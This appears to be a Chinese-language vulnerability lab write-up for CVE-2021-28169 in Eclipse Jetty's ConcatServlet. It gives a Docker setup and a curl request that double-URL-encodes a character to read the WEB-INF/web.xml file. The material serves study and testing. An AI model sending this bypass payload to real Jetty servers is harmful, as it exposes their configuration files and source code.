


Jetty 通用 Servlets 组件 ConcatServlet 信息泄露漏洞（CVE-2021-28169）¶
Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境，而Jetty Servlets是Jetty提供给开发者的一些通用组件。
在9.4.40, 10.0.2, 11.0.2版本前，Jetty Servlets中的ConcatServlet、WelcomeFilter类存在多重解码问题，如果开发者主动使用了这两个类，攻击者可以利用其访问WEB-INF目录下的敏感文件，造成配置文件及代码泄露。
参考链接：
漏洞环境¶
执行如下命令启动一个Jetty 9.4.40服务器：
docker compose up -d
环境启动后，访问http://your-ip:8080即可查看到一个example页面。该页面使用到了ConcatServlet来优化静态文件的加载：
<link rel="stylesheet" href="/static?/css/base.css&/css/app.css">
漏洞利用¶
正常通过/static?/WEB-INF/web.xml无法访问到敏感文件web.xml：

对字母W进行双URL编码，即可绕过限制访问web.xml：
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
